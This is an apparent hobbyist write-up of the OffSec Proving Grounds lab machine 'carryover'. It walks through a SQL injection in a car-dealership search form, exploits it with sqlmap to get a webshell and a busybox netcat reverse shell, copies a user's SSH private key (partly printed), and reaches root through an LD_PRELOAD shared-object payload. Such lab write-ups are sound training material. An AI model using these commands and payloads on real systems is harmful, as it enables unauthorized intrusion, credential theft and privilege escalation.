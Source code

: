 difficulty: intermediate  
community rated: hard  
released: Dec 06 2024

Hey all, every now and again I like to check the new releases on the Offsec Proving Grounds. This article is about the new linux machine carryover. carryover was an intermediate box that was actually criminally easy with Sqlmap, but harder without. I used Sqlmap because now that my OSCP is over, I want to enjoy the satisfaction of using it. The machines exposed webserver was vulnerable to an sql injection in the search functionality. Using sqlmap os-shell function, I was able to get a reverse shell on the machine as www-data. After I established a working shell, I was able to harvest the local users ssh key and get a user ssh session. The path to root involved exploiting LD_Preload to obtain a root shell. Lets get started!

As always, I start with my tried and true nmap scan

`sudo nmap -sC -sV -p- --min-rate 10000 192.168.112.114 -oA nmap.out`

![Proving Grounds/carryover/nmap.png](https://publish-01.obsidian.md/access/1a97427586403fe24bd74e609455b39e/Proving%20Grounds/carryover/nmap.png)

Not much to go on here, just 2 open ports common with linux webservers

port 22 | ssh | OpenSSH 9.2p1  
port 80 | http | nginx 1.22.1

This is most likely some sort of Debian based Linux machine.

Lets jump to the webpage by navigating via browser to [http://192.168.112.114](http://192.168.112.114)

![carvilla.png](https://publish-01.obsidian.md/access/1a97427586403fe24bd74e609455b39e/Proving%20Grounds/carryover/carvilla.png)

Navigating to the site presents me with some kind of dealership service where your perfect car is just a click away, fat chance.

Clicking around the links don't take me anywhere. The page is incredibly static.

The only area that allow for some form of interaction is a janky search feature.

![SearchFeature.png](https://publish-01.obsidian.md/access/1a97427586403fe24bd74e609455b39e/Proving%20Grounds/carryover/SearchFeature.png)

Selecting the options and then clicking search kind of breaks the page and doesn't present anything, but I think this is due to the lack of car choices. People must have taken advantage of all the unbeatable prices.

I want to get a closer look at what's going on here, Ill do this using inspector built into FireFox. I'm going to go to the network tab and click search so I can edit and resend the request to check for SQL injection.

Now for each parameter being send, I'm going to add a single quote to the end to check for any issues or instabilities.

![SQLError.gif](https://publish-01.obsidian.md/access/1a97427586403fe24bd74e609455b39e/Proving%20Grounds/carryover/SQLError.gif)

Awesome! the "make" parameter is injectable. It looks like it running a mysql db. I'm going to copy this using Burp Suite.

![captureReq.gif](https://publish-01.obsidian.md/access/1a97427586403fe24bd74e609455b39e/Proving%20Grounds/carryover/captureReq.gif)

Alright, I'm going to use sqlmap to exploit this injection.

`sqlmap -r request.req`

Once complete after accepting all default commands, we have the list of injections at the bottom.

![sqlinjections.png](https://publish-01.obsidian.md/access/1a97427586403fe24bd74e609455b39e/Proving%20Grounds/carryover/sqlinjections.png)

I first look around the database for credentials, but the only contents are the cars.

`sqlmap -r request.req -D car_dealership --dump`

![cars.png](https://publish-01.obsidian.md/access/1a97427586403fe24bd74e609455b39e/Proving%20Grounds/carryover/cars.png)

So I run `os-shell` and it successfully uploads a simple webshell for remote code execution as www-data!

`sqlmap -r request.req --os-shell`

![webshell.png](https://publish-01.obsidian.md/access/1a97427586403fe24bd74e609455b39e/Proving%20Grounds/carryover/webshell.png)

Sweet, Im going to pass a reverse shell using busybox cause its just been working for me. Ill set up my listener using netcat.

```
┌──(kali㉿kali)-[~/Documents/offsec/payloads]
└─$ sudo nc -lvnp 443 
[sudo] password for kali: 
listening on [any] 443 ...
```

And run my payload

```
os-shell> busybox nc 192.168.45.248 443 -e /bin/bash
```

I have a catch!

```
┌──(kali㉿kali)-[~/Documents/offsec/payloads]
└─$ sudo nc -lvnp 443 
[sudo] password for kali: 
listening on [any] 443 ...
connect to [192.168.45.248] from (UNKNOWN) [192.168.112.114] 40618
```

This is a nasty shell, So I'm gonna use the standard trick to get me a solid shell.

```
python3 -c 'import pty; pty.spawn("/bin/bash")'  
Ctrl ^Z  
stty raw -echo && fg  
reset  
screen  
export TERM=xterm  
clear
```

Now I have a solid shell! but I'm limited as www-data. I'm going to check to see if there are any ssh creds I can steal from the local user.

```
www-data@carryover:~/html$ ls /home
ogbos
www-data@carryover:~/html$ cat /home/ogbos/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAryxo4M/ZsBipierou87mnSgBEJMC958rhFyjEF33fNjb4vOTzlrj
wmj1OQNqgFD1MFQy294ryNa5+Glt52xZn9L7nw89iJVUfJm1i79dchYylkMjSiGpjmv5km
hXuGqojH6Tp2Grot6RXvbVhZD8wh3irg/AUlFuKVRj2JFeNtDbu+CHN9rAHLHamWy3nOJ0
Wn7pV8v7OhI3TrOOnwU1+uDadW1PvYPgQrnPFnJ9RxY3gMxw9rq+C9iceRc9Lz7Hw0KGEp
f9RW4FzCTCHR45JRJ2tSurda0bVuPEInCoLCCI+ZogbsVWaiRMhXUt7ckxOai4+hKEwW3N
/YWZC44yJqkGPk5zjuCv2lKxE/b8OLajv4FUO9bFfkM53YYPGwIBo0yI2pn2qJuh7O9IZI
2aBBGK7kq/T8kjJQz3qXqcizMHyUGfhJ9fyY7rFwhxZVH+T0TY1Yz/VLO+NadvujXJSntH
ioSRFSb47toDASQc3Go0cqdlUkyghNT7rBuINNTbAAAFiAlpOxoJaTsaAAAAB3NzaC1yc2
EAAAGBAK8saODP2bAYqYnq6LvO5p0oARCTAvefK4RcoxBd93zY2+Lzk85a48Jo9TkDaoBQ
9TBUMtveK8jWufhpbedsWZ/S+58PPYiVVHyZtYu/XXIWMpZDI0ohqY5r+ZJoV7hqqIx+k6
dhq6LekV721YWQ/MId4q4PwFJRbilUY9iRXjbQ27vghzfawByx2plst5zidFp+6VfL+zoS
```

Awesome! lets steal it and use it to login as ogbos.

```
vi id_rsa
i <insert>
Ctrl-V
chmod 600 id_rsa
ssh -i id_rsa ogbos@192.168.112.114
```

![shellasogbos.png](https://publish-01.obsidian.md/access/1a97427586403fe24bd74e609455b39e/Proving%20Grounds/carryover/shellasogbos.png)

Nice! grab the local.txt

```
ogbos@carryover:~$ cat ~/local.txt 
08ae2210******************
```

My first impulse in search for a privilege escalation vector is `sudo -l`

![ItsOver.png](https://publish-01.obsidian.md/access/1a97427586403fe24bd74e609455b39e/Proving%20Grounds/carryover/ItsOver.png)

Sweet! its all over! env_keep+=LD_PRELOAD listed as a default with a no password sudo for /usr/bin/python3 allows us to run a shared library as root. [Here](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/) is a procedure to follow to do this.

All we need to do is generate a c-program file inside the tmp directory.

```
cd /tmp
vi shell.c
```

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

![shellc.png](https://publish-01.obsidian.md/access/1a97427586403fe24bd74e609455b39e/Proving%20Grounds/carryover/shellc.png)

Now, on the attacker we run the following

```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/python3 /opt/event-viewer.py
```

![Proving Grounds/carryover/rootshell.png](https://publish-01.obsidian.md/access/1a97427586403fe24bd74e609455b39e/Proving%20Grounds/carryover/rootshell.png)

Its that easy!

And we grab the root flag!

```
# cat /root/proof.txt
9c8ff5c*****************
```

I have insane respect for security researchers and career hackers that figure this stuff out to make my life easy. Thank you for reading! Happy Hacking!